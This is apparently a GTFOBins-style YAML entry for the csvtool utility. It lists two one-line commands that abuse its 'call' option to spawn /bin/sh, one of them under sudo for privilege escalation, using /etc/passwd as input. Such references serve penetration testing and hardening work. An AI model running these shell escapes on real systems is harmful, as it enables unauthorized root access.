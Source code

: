 ```yaml
---
functions:
  shell:
    - code: csvtool call '/bin/sh;false' /etc/passwd
  sudo:
    - code: sudo csvtool call '/bin/sh;false' /etc/passwd
---
```

